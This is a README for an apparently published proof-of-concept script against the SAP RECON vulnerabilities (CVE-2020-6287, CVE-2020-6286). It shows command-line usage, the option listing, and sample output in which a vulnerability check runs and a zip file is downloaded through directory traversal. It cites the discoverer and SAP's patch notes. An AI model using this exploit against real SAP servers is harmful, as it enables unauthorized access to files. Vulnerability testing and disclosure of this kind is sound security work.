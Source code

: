 PoC for CVE-2020-6287, CVE-2020-6286 (SAP RECON vulnerability)

~~Pffff! RECON (Remotely Exploitable Code On NetWeaver)? Guys, really? That was the best codename you came up with? :)~~ 

This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and as a PoC script exploits directory traversal in `queryProtocol` method.

Directory traversal allows to download any `zip` from SAP server.

***This PoC doesn't provide RCE/user creation functionality.<br>This project is created only for educational purposes and cannot be used for law violation or personal gain.
<br>The author of this project is not responsible for any possible harm caused by the materials of this project***

Original finding: [Pablo Artuso](https://twitter.com/lmkalg)

Solution: [#2934135](https://launchpad.support.sap.com/#/notes/2934135), [#2939665](https://launchpad.support.sap.com/#/notes/2939665)



# How to use


Just point SAP NW AS Java hostnmae/ip.

There is additional options:

1. `-c` - check if SAP server is vulnerable to RECON
2. `-f` - download `zip` file from SAP server


Ex.:

```
~python RECON.py -H 172.16.30.8 -f /1111.zip
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Ok! File zipfile_929.zip was saved
```

## All options


```
~python RECON.py -h
usage: RECON.py [-h] [-H HOST] [-P PORT] [-s] [-c] [-f ZIPFILE]
                [--timeout TIMEOUT] [-v]

PoC for CVE-2020-6287, CVE-2020-6286 (RECON)
This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and exploits dir traversal in queryProtocol method
Original finding: Pablo Artuso. https://twitter.com/lmkalg
Solution: https://launchpad.support.sap.com/#/notes/2934135, https://launchpad.support.sap.com/#/notes/2939665

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Java NW host (default: 127.0.0.1)
  -P PORT, --port PORT  Java NW web port (default: tcp/50000)
  -s, --ssl             enable SSL
  -c, --check           just detect vulnerability
  -f ZIPFILE, --zipfile ZIPFILE
                        ZIP file to read. CVE-2020-6286
  --timeout TIMEOUT     HTTP connection timeout in second (default: 10)
  -v, --verbose         verbose mode
```
